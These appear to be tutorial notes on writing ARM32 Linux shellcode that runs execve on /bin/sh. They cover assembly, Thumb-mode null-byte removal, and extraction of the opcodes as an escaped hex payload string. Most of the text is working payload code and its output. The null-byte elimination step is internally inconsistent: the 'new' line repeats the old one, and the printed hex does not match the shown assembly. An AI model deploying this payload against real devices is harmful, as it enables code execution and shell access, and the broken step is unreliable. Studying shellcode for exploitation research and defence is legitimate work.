 # ARM shellcode for launching a shell
##### arm32 asm
https://github.com/azeria-labs/ARM-assembly-examples/

The C API...
`int  execve(const char *filename, char *const argv [], char *const envp[]);`

The raw ARM code..
```
.section .text
.global _start

_start:
        add r0, pc, #12     @r0 = pc + 12 ("/bin/sh\0")
        mov r1, #0          @pass NULL into the argv[]
        mov r2, #0          @pass NULL into the envp[]
        mov r7, #11         @11 is syscall number of execve on linux arm
        svc #0

.ascii "/bin/sh\0"
```
# Banana skin
Why `pc + 12`?  The `PC` starts two instructions ahead of the current one. Details of why are here: https://azeria-labs.com/arm-data-types-and-registers-part-2/

##### Compile for arm32 on arm32 host
```
arm-linux-gnueabi-as -c tiny.s -o tiny.o && arm-linux-gnueabi-ld tiny.o -o tiny
```
##### Runtime
```
$ ./tiny
$ exit              <-- new shell
user@arm64:~$       <-- original shell
```
##### Remove Null bytes
You can see the bytes using `$ objdump -d tiny.o`.

Re-compile the ASM to `thumb` mode.  
```
.section .text
.global _start

_start:
        .code 32
        add r3, pc, #1 @the line that forces Thumb mode
        bx  r3

        .code 16
        add r0, pc, #8 @aligned to 4-bytes
        eor r1, r1, r1
        eor r2, r2, r2
        mov r7, #11
        svc #1
        mov r5, r5

.ascii "/bin/sh\0"
```
##### Eliminate the final NULL byte
Where is the final NULL byte?  
```
$ objdump -d tiny.o
```
Then you will find..
```
14:	6e69622f 	.word	0x6e69622f
18:	0068732f 	.word	0x0068732f
```
If you swap the byte order [ from `little endian` ] you can decode..
```
0x2f62696e  == /bin
0x2f736800  == /sh\0
```
Re-compile the ASM code with this line:
```
.ascii "/bin/sh\0"
```
The produced binary will NOT execute.  It requires a new linker flag to work.
```
arm-linux-gnueabi-as tiny.s -o tiny.o && arm-linux-gnueabi-ld -N tiny.o -o tiny
```
##### Copy and convert ASM Instructions
At this point you have working `shellcode`.  

Now copy the binary's object files.
```
$ objcopy -O binary tiny tiny.bin     
```
Convert the `opcodes` to program readable hex bytes.
```
$ hexdump -v -e '"\\""x" 1/1 "%02x" ""' tiny.bin
\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x02\xa0\x49\x40\x52\x40\xc2\x71\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x73\x68\x78
```
##### Prepare the payload
```
#!/usr/bin/env python

import sys

binary = open(sys.argv[1],'rb')

for byte in binary.read():
     sys.stdout.write("\\x"+byte.encode("hex"))
print ""
```
##### Run script
```
python shellcode_print.py tiny.bin
\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x02\xa0\x49\x40\x52\x40\xc2\x71\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x73\x68\x78
```
##### References
```
https://azeria-labs.com/writing-arm-shellcode/
http://www.kernel-panic.it/security/shellcode/shellcode5.html
http://shell-storm.org/blog/Shellcode-On-ARM-Architecture/
https://modexp.wordpress.com/2017/01/21/shellcode-osx/
```
